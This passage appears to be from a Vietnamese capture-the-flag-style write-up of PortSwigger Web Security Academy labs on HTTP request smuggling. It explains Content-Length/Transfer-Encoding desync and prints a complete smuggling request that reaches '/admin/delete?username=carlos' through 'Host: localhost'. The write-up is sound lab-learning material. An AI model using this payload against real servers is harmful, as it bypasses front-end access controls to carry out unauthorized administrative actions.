 Để `Content-length: 3` nó và phần body chỉ có `x=` (2 byte) nó sẽ xem là đang thiếu và đợi thêm, và khi request lần thứ 2 nó sẽ lấy thêm 1 phần ở request Post cho thành body, và kết thúc request này ở đó, khác với ở trên nó sẽ ghép 2 request lại thành 1 thì sẽ có 2 `Host`

Cuối cùng ta sẽ xóa `carlos`.

```http
POST / HTTP/1.1
Host: 0a32000d04d0fb00816639d600830078.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked
Content-Length: 109

f
djr8x=x&um97b=x
0

GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
Content-Length: 3

x=
```

---

### 2. Exploiting HTTP request smuggling to bypass front-end security controls, TE.CL vulnerability
https://portswigger.net/web-security/request-smuggling/exploiting/lab-bypass-front-end-controls-te-cl

Dùng scan của burp:\
![alt text](image-16.png)
